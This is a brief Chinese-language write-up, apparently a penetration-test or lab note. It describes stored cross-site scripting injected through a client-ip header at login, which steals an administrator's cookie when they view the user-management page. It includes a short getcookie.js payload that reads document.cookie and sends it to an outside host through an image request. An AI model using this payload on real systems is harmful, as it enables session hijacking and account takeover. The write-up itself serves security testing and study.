 通过普通用户登录时抓包，在client-ip 中写payload。

​![image](assets/image-20240926185358-avzcehn.png)​

当管理员打开用户管理界面时获取到cookie，实际情况应该将cookie发送到第三方服务器。但是引号’‘’总是被过滤

​![image](assets/image-20240926185836-h7v5etg.png)​

写入第三方服务器方法

在第三方服务器创建两个文件

​![image](assets/image-20240927000803-cybwwca.png)​

​![image](assets/image-20240927000032-xo6z6an.png)​

```js
//getcookie.js
let cookie = document.cookie
let last = '<img src="http://getcookie/getcookie.php?cookie='+cookie+'>'
document.write(last);
```
